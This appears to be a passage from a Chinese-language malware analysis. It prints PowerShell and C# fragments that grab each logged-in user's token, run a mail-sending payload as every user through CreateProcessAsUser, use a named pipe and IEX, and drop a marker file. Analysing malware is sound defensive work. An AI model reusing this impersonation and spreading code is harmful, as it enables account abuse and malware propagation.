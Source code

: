 ```powershell
    # // 使用Windows高级API来获取当前登录用户的访问令牌,以获取到的用户身份执行命令
    # // 这意计算机上所有登录的用户会被发送邮件
    [Utils.ProcessExtensions]::EnumSessionsAndExecCmd($sesscmd.Trim())

	$pipe=new-object System.IO.Pipes.NamedPipeClientStream("\\.\pipe\HHyeuqi7");
    $pipe.Connect();
    $sw=new-object System.IO.StreamWriter($pipe);
    $sw.WriteLine($mail_code);
    $sw.Dispose();
    $pipe.Dispose()
	(new-object System.IO.Pipes.NamedPipeClientStream("\\.\pipe\HHyeuqi7")).Connect()
	"Done and exit..."
}else{
	IEx $mail_code
}

new-item $env:tmp\godmali3.txt -type file -force
```

在当前环境中注入一段C#代码

用于调用Windows高级API来获取当前登录用户的访问令牌,以获取到的用户身份执行mail_code包含的命令

这意味着会影响计算机上所有登录用户

```c#
using System;
using System.Runtime.InteropServices;
namespace Utils
{
    public static class ProcessExtensions
    {
        private const uint INVALID_SESSION_ID = 0xFFFFFFFF;
        [DllImport("advapi32.dll", EntryPoint = "CreateProcessAsUser", SetLastError = true, CharSet = CharSet.Ansi, CallingConvention = CallingConvention.StdCall)]
        private static extern bool CreateProcessAsUser(
            IntPtr hToken,
            String lpApplicationName,
            String lpCommandLine,
            IntPtr lpProcessAttributes,
            IntPtr lpThreadAttributes,
            bool bInheritHandle,
            uint dwCreationFlags,
            IntPtr lpEnvironment,
            String lpCurrentDirectory,
            ref STARTUPINFO lpStartupInfo,
            out PROCESS_INFORMATION lpProcessInformation);
        [DllImport("advapi32.dll", EntryPoint = "DuplicateTokenEx")]
        private static extern bool DuplicateTokenEx(
            IntPtr ExistingTokenHandle,
            uint dwDesiredAccess,
            IntPtr lpThreadAttributes,
            int TokenType,
            int ImpersonationLevel,
            ref IntPtr DuplicateTokenHandle);
        [DllImport("userenv.dll", SetLastError = true)]
        private static extern bool CreateEnvironmentBlock(ref IntPtr lpEnvironment, IntPtr hToken, bool bInherit);
        [DllImport("userenv.dll", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool DestroyEnvironmentBlock(IntPtr lpEnvironment);
        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool CloseHandle(IntPtr hSnapshot);
        [DllImport("Wtsapi32.dll", SetLastError=true)]
        private static extern bool WTSQueryUserToken(uint SessionId, ref IntPtr phToken);
```